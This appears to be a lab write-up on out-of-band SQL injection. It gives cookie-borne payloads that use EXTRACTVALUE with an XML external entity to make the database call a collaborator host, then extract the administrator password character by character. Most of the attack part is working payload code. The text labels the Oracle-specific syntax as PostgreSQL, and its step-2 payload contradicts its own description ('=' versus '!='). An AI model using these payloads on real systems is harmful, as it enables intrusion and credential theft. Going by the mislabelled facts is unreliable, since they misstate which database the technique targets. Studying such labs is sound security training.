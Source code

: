 The process of exploiting an out-of-band (OAST) SQL injection vulnerability in a web application using PostgreSQL's EXTRACTVALUE and XML external entity (XXE) techniques to interact with a collaborator server (e.g., Burp Collaborator or OASTify). The goal is to confirm the vulnerability and extract the administrator user's password from the users table.

### Solution

Cheatsheet to exfiltrate data using OAST technique,

![image](https://github.com/user-attachments/assets/8e58d145-8e79-431d-8a61-69e5dfda5d0f)


#### Step 1: Test for Out-of-Band SQL Injection Vulnerability

**Objective**
Determine if the application is vulnerable to out-of-band SQL injection by triggering an HTTP request to a collaborator server.

**Payload**

```
Cookie: TrackingId=FFyToxqSs49lpxuC'+union+select+EXTRACTVALUE(xmltype('<%3fxml+version="1.0"+encoding="UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http://rfawfotutbq6iasl1guon5zd84ev2uqj.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--;

````


**Description**: This payload uses **EXTRACTVALUE** with an XXE entity to make an HTTP request to a collaborator server **(rfawfotutbq6iasl1guon5zd84ev2uqj.oastify.com)**. If the server receives a request, the application is vulnerable.

**Result**: Interaction observed on the collaborator server, confirming the vulnerability.


#### Step 2: Enumerate Password Character by Character

**Description**: Tests if the first character of the administrator password is **'a'**. If true, it triggers an HTTP request to the collaborator server. If false, no request is made.

**Test:**
Tested with the first character not equal to 'a' and observed an interaction, confirming the payload works.
Modified to test equality (=) for positive confirmation of characters.

**Payload**

```
SELECT CASE WHEN ((SUBSTR((SELECT password FROM users WHERE username = 'administrator'),1,1))='a') THEN 'a'||(SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual) ELSE NULL END FROM dual
```

**Encoded Payload:**

```
FFyToxqSs49lpxuC'+union+SELECT+CASE+WHEN+((SUBSTR((SELECT+password+FROM+users+WHERE+username+=+'administrator'),1,1))!='a')+THEN+'a'||(SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"?><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http://BURP-COLLABORATOR/">+%25remote%3b]>'),'/l')+FROM+dual)+ELSE+NULL+END+FROM+dual--;

```
![image](https://github.com/user-attachments/assets/c89639d2-5d83-4518-b552-a80e039a500a)
